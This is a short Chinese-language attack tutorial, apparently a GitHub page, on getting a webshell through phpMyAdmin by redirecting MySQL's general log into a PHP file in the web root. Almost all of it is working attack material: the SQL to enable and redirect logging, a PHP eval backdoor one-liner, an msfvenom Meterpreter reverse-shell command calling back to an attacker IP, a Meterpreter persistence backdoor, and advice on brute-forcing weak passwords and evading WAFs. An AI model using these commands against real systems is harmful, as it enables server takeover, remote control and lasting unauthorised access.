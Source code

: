# 利用phpmyadmin日志getshell

### 原理：

mysql 5.0版本以上会创建日志文件，全局变量genernal_log控制日志保存状态，开启它可以记录用户输入的每条命令；genernal_log_file变量值是保存日志文件的路径。

开启genernal_log后把genernal_log_file的值改为自定义的一个php文件中，然后通过log日志写入一句话后门，会被记录将其写入文件，即可getshell，需要有可读可写权限



### 1. 改变日志状态和日志文件及路径

```SQL
show variables like 'general%';	//查看日志状态
show variables like 'secure_file_priv';	//查看是否有写权限
select @@datadir;	//获取网站的绝对路径
set global general_log = "ON";
set global general_log_file='C:/phpstudy/WWW/shell.php';
set global general_log_file='/var/www/html/shell.php';
```

### 2. 查询一句话后门

```SQL
select '<?php eval($_POST[cmd]);?>';
```

### 3. 连接一句话

```http
192.168.1.12/shell.php
```

### 4. 提权及后渗透

用msf生成反弹木马，上传到目标服务器执行

```msf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f exe > shell.exe
```

### 5. 建立后门

```msf
run persistence -S -U -X -i 5 -p 8888 -r 192.168.1.12
```



### 总结：

1. 通过爆破等方法找到phpmyadmin登录页面，使用弱口令爆破找到密码
2. 有可读可写权限
3. into outfile已被禁用，有WAF会被拦截
4. 采用SQL查询免杀shell的语句

